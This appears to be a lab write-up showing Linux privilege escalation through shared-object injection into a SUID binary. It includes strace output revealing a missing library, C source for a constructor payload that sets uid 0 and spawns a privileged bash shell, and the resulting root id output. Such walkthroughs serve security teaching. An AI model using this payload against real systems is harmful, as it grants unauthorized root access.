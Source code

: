 ### Step1: To find out the `SUID executable`
The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.
```
$ ll /usr/local/bin/suid-so 
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
```
### Step2: Running `strace` on the file: 

Running strace on the file to search the output for `open/access calls and for "no such file" errors`:
```diff
$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
+open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```
#### NOTE:
The `executable` tried to open => /home/user/.config/libcalc.so, but it is ***missing!!!***
=> We can take this adv. to make our own `/home/user/.config/libcalc.so` to execute what we want --> `Shared Object Injection` :white_check_mark:

### Step3: Making directory and shared object
```
$ mkdir /home/user/.config
$ gcc -shared -fPIC -o /home/user/.config/libcalc.so <custom made up c code>
```
```c
//Custom c code used as shared object

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
### Step4: Now just execute the executable:
```
$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),
46(plugdev),1000(user)
```
-----------------------------------------------------------------------------------------------------------------------------
-----------------------------------------------------------------------------------------------------------------------------